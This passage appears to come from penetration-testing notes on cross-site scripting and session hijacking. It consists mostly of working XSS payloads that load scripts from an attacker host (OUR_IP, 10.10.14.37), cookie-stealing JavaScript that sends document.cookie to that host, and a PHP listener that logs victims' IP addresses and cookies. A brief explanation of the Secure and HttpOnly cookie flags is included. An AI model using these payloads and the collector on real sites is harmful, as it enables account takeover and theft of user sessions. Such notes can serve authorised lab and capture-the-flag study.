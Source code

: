 ```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

### Privesc Using Session Hijacking

Check if session cookie in storage

Cookies can be set with 2 optional flags: _Secure_ and _HttpOnly._

* _Secure_ - Only send cookie over encrypted connection like HTTPS
* _HttpOnly_ - Denies Javascript access to cookie. If not set then XSS payload can steal cookie. Check in storage section of Developer Tools If HttpOnly then we can only send through HTTP and it can't be retrieved by user thorugh Javascript then choose to create new admin users,etc.

After finding a payload that works, access the host with the payload that works

```
<script src=http://OUR_IP>/script.js</script>
```

And script.js on host is one of these:

```js
document.location='http://OUR_IP/index.php?c='+document.cookie;

new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Can also use

```html
<img src=x onerror=fetch('http://10.10.14.37/'+document.cookie);>
```

To steal cookie: Use this in php server:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
